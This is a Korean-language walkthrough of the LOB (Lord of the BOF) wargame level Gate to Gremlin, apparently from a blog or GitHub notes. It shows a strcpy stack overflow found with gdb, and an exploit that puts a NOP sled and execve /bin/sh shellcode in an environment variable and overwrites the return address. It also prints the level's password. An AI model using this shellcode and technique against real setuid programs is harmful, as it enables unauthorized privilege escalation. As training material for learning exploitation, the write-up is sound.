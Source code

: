 Gate -> Gremlin

모든 LOB문제를 풀 때에는 bash2를 입력하여 bash를 bash2로 바꾸어 주어야 합니다. 버전이 낮아서 bash는 "\xff"를 "\x00"으로 인식을 하여 문제를 풀지 못합니다.


**gremlin.c**

```C
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```
인자 값이 2개 이상이어야 하는 것 말고는 별다른 조건은 없습니다.<br>
gdb를 이용하여 버퍼의 크기를 구해보도록 하겠습니다. <br>
이 때 원본파일은 권한이 없어서 직접 gdb를 이용할 수 없으니, temp 디렉토리를 만들어서 그 디렉토리에 파일을 복사하여 분석 및 공격을 해보도록 하겠습니다.
<br><br>

```
[gate@localhost gate]$ mkdir temp
[gate@localhost gate]$ cp gremlin temp/
[gate@localhost gate]$ cd temp
[gate@localhost temp]$ ls
gremlin
```

디텍토리가 잘만들어지고 파일이 잘 복사된 것을 볼 수 있습니다. 이제 gdb를 이용하여 버퍼의 크기를 구해도록 하겠습니다.
<br>
```
[gate@localhost temp]$ gdb -q gremlin 
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %ebp,%esp
0x8048433 <main+3>:	sub    %esp,0x100
~~~생략~~~
0x804845f <main+47>:	lea    %eax,[%ebp-256]
0x8048465 <main+53>:	push   %eax
0x8048466 <main+54>:	call   0x8048370 <strcpy>
0x804846b <main+59>:	add    %esp,8
0x804846e <main+62>:	lea    %eax,[%ebp-256]
~~~생략~~~
```
gdb에 -q 옵션을 주어 gdb를 시작할 때 나오는 여러가지 문구를 생략할 수 있습니다.<br>
`(gdb)set disassembly-flavor intel`로 인텔문법으로 어셈블리어를 볼 것 이며, `(gdb)disas main`으로 main함수를 디스어셈블리 한 것입니다.
<br><br>
여기서 중요한 부분은 main+47 과 main+54부분입니다.
strcpy함수에서 오버플로우가 발생하고, 버퍼의 크기가 256이라는 것을 알 수 있습니다.
<br>
간단하게 스택구조를 그려보면 다음과 같이 나타낼 수 있습니다.
<br>>>>`Buffer(256) + SFP(4) + RET(4)`
<br><br>
저는 환경변수를 이용하여 공격을 하겠습니다. 환경변수에 '\x90'을 앞에 채우고 그 뒤에 쉘코드를 넣고, 환경변수의 주소를 알아낼 것 입니다.<br>
그리고 알아낸 환경변수의 주소를 RET에 넣어서 쉘코드를 실행시킬 것입니다.

```
[gate@localhost temp]$ export EGG=`python -c 'print "\x90"*100 + "\x31\xc0\xb0\x31\xcd\x80\x89\xc1\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
```

이렇게 EGG라는 이름의 환경변수를 만들고 그 안에 쉘코드를 넣어줄 수 있고, 다음의 소스코드로 환경변수의 주소를 알아낼 수 있습니다.<br>
**hack.c**
```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
        char *p;
        p = getenv(argv[1]);

        if(p != NULL)
        {
                printf("%s=%p\n",argv[1],p);
        }
        return 0;
}
```

```
[gate@localhost temp]$ ./hack EGG
EGG=0xbffffe27
[gate@localhost gate]$ ./gremlin `python -c 'print "\x90"*260 + "\x27\xfe\xff\xbf"'`
'þÿ¿
```
더미값으로 ret 전까지 260만큼 채워주고, ret에 환경변수의 주소를 넣어서 주었습니다. 주소는 리틀엔디안 방식으로 넣어주어야 합니다. 복사한 파일에 공격을 성공하였고, 원본파일에도 똑같이 공격을 하여서 성공하였습니다.

```
[gate@localhost gate]$ ./gremlin `python -c 'print "\x90"*260 + "\x27\xfe\xff\xbf"'`
'þÿ¿
bash$ my-pass
euid = 501
hello bof world
```